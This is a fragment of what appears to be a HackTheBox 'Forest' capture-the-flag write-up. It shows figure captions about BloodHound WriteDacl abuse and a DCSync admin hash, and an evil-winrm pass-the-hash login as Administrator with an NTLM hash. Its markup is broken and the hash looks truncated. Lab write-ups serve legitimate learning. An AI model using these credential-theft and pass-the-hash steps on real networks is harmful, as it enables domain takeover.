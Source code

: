 ```{r, echo = FALSE, fig.cap="Bloodhound abuse WriteDacl", out.width="90%"}

```{r, echo = FALSE, fig.cap="DCSync Admin hash", out.width="90%"}
    knitr::include_graphics("images/Forest-dcsync-admin-hash.png")
```

evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
![Forest-dcsyc-admi-hash](/assets/images/Forest-dcsync-admin-hash.png) 
```

`WHOAMI -> htb\administrator` ;)
